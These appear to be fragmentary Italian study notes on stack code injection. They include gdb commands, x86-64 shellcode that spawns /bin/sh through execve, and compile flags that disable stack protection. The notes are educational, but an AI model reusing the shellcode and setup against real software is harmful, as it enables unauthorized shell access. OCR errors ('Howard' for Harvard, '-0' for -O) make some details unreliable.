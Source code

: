è scritto in linguaggio macchina che viene usato per sfruttare delle vulnerabilità interne al codice attraverso un attacco di code injection. Viene immesso all’interno di un processo in funzione che va quindi a svolgere tale codice e quindi le azioni che vogliamo svolgere sulla macchina.(WRITTEN, INJECTION, EXECUTED).

L’attacco base è un attacco di code injection che avviene all’interno della memoria per poter funzionare, viene usata nelle architetture di Von Neumann poiché programmi e dati occupano lo stesso spazio di memoria; tale attacco non può essere effettuato in una macchina di tipo Howard.

Prima cosa da fare è individuare un pezzo di codice vulnerabile.

```c
gdb -q checkbug
x/s $rip and x/i $rip
```

0x00007fffffffde20

La variabile name del programma viene messa nello stack.

Nel codice l’errore è l’inversione dei parametri.

Dobbiamo quindi fare in modo che il linguaggio macchina mandi in esecuzione lo shellcode

```c
mov rax, 59
lea rdi, [rip+binsh]
mov rsi, 0
mov rdx , 0
syscall
binsh:
.string "/bin/sh"
```

per iniettare il codice bisogna fare una pipe con cat in modo tale che il suo output venga dato all’eseguibile. Non funziona, allora se mette er trattino (-).

---

```bash
gcc -fno-stack-protector -z execstack main.c -o main
```

hexdmp shellcode

si apre la shell con la syscall execve (codice 0x3b)

objcopy -0 binary —only-section=text shell5 shell

strings shellcode.text

shell-storm.org

che indirizzo da mettere in rax per eseguire il buffer?

gdb nomefile

`b main` metto un break point al main

## Countermeasures
